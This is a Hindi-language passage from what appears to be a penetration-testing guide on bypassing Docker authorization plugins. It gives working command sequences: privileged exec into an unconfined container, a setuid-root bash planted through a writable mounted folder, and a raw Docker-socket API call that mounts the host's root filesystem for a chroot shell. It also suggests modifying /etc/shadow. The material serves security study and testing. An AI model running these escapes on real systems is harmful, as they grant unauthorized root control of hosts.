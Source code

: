 ## disallowed `run --privileged`

इस मामले में सिसएडमिन ने **उपयोगकर्ताओं को वॉल्यूम्स माउंट करने और `--privileged` फ्लैग के साथ कंटेनर्स चलाने की अनुमति नहीं दी** या कंटेनर को कोई अतिरिक्त क्षमता नहीं दी:
```bash
docker run -d --privileged modified-ubuntu
docker: Error response from daemon: authorization denied by plugin customauth: [DOCKER FIREWALL] Specified Privileged option value is Disallowed.
See 'docker run --help'.
```
हालांकि, एक उपयोगकर्ता **कंटेनर के अंदर एक शेल बना सकता है और उसे अतिरिक्त विशेषाधिकार दे सकता है**:
```bash
docker run -d --security-opt "seccomp=unconfined" ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de
docker exec -it --privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
```
अब, उपयोगकर्ता पहले चर्चा की गई तकनीकों में से किसी का उपयोग करके कंटेनर से बाहर निकल सकता है और होस्ट के अंदर विशेषाधिकार बढ़ा सकता है।

## माउंट लिखने योग्य फोल्डर

इस मामले में सिसएडमिन ने **उपयोगकर्ताओं को `--privileged` फ्लैग के साथ कंटेनर चलाने की अनुमति नहीं दी** या कंटेनर को कोई अतिरिक्त क्षमता नहीं दी, और उसने केवल `/tmp` फोल्डर माउंट करने की अनुमति दी:
```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
-p #This will give you a shell as root
```
{% hint style="info" %}
ध्यान दें कि शायद आप `/tmp` फोल्डर को माउंट नहीं कर सकते हैं लेकिन आप **अलग लिखने योग्य फोल्डर** को माउंट कर सकते हैं। लिखने योग्य निर्देशिकाओं को ढूँढने के लिए आप यह कमांड उपयोग कर सकते हैं: `find / -writable -type d 2>/dev/null`

**ध्यान दें कि लिनक्स मशीन की सभी निर्देशिकाएँ suid बिट का समर्थन नहीं करती हैं!** suid बिट का समर्थन करने वाली निर्देशिकाओं की जाँच करने के लिए `mount | grep -v "nosuid"` कमांड चलाएँ। उदाहरण के लिए आमतौर पर `/dev/shm`, `/run`, `/proc`, `/sys/fs/cgroup` और `/var/lib/lxcfs` suid बिट का समर्थन नहीं करते हैं।

यह भी ध्यान दें कि अगर आप **`/etc` माउंट कर सकते हैं** या कोई अन्य फोल्डर **जिसमें कॉन्फ़िगरेशन फाइलें होती हैं**, तो आप उन्हें डॉकर कंटेनर से रूट के रूप में बदल सकते हैं ताकि **होस्ट में उनका दुरुपयोग करके** विशेषाधिकार बढ़ा सकें (शायद `/etc/shadow` में बदलाव करके)
{% endhint %}

## Unchecked JSON Structure

यह संभव है कि जब सिसएडमिन ने डॉकर फ़ायरवॉल को कॉन्फ़िगर किया था तो उसने API के किसी **महत्वपूर्ण पैरामीटर** को भूल गया हो ([https://docs.docker.com/engine/api/v1.40/#operation/ContainerList](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList)) जैसे कि "**Binds**".\
निम्नलिखित उदाहरण में इस गलत कॉन्फ़िगरेशन का दुरुपयोग करके एक कंटेनर बनाना और चलाना संभव है जो होस्ट के रूट (/) फोल्डर को माउंट करता है:
```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```